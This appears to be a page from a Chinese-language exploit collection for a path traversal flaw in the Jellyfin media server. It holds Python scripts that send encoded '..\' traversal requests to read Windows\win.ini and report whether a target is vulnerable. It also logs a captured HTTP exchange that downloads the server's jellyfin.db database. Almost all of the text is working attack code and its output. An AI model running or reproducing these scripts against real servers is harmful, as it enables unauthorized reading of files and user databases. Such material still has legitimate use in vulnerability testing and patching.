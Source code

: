 ```python
    }
    response=requests.get(url,headers=headers,verify=False)
    if response.status_code==200:
        print(url+"  "+"存在漏洞")
     
    else:
        print(url+"  "+"不存在漏洞")
```

```python
#单个ip
import requests
import sys
import urllib3
urllib3.disable_warnings()
 
if len(sys.argv)!=2:  
    print('Usage: python3  xxx.py  http://xxx.xxx.xxx.xxx ')
    sys.exit()
url= sys.argv[1]
url=url+"/Audio/1/hls/..%5C..%5C..%5C..%5C..%5C..%5CWindows%5Cwin.ini/stream.mp3/"
headers = {
        'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36',
                "Content-Type": "application/octet-stream"
    }
response=requests.get(url,headers=headers,verify=False)
if response.status_code==200:
    print("存在漏洞")
     
else:
    print("不存在漏洞")
```

## 测试留痕

```yml
GET /Audio/anything/hls/..%5Cdata%5Cjellyfin.db/stream.mp3/ HTTP/1.1
Host: 10.16.45.164:5577
Connection: keep-alive
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/89.0.4389.114 Safari/537.36 Edg/89.0.774.68
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6

HTTP/1.1 200 OK
Date: Thu, 08 Apr 2021 10:13:59 GMT
Content-Type: application/octet-stream
Server: Microsoft-NetCore/2.0, UPnP/1.0 DLNADOC/1.50
Content-Length: 331776
Cache-Control: public
Last-Modified: Sun, 04 Apr 2021 15:34:24 GMT
Accept-Ranges: bytes
Age: 326376
Access-Control-Allow-Credentials: true
Access-Control-Allow-Headers: Accept, Accept-Language, Authorization, Cache-Control, Content-Disposition, Content-Encoding, Content-Language, Content-Length, Content-MD5, Content-Range, Content-Type, Cookie, Date, Host, If-Match, If-Modified-Since, If-None-Match, If-Unmodified-Since, Origin, OriginToken, Pragma, Range, Slug, Transfer-Encoding, Want-Digest, X-MediaBrowser-Token, X-Emby-Authorization
Access-Control-Allow-Methods: GET, POST, PUT, DELETE, PATCH, OPTIONS
```
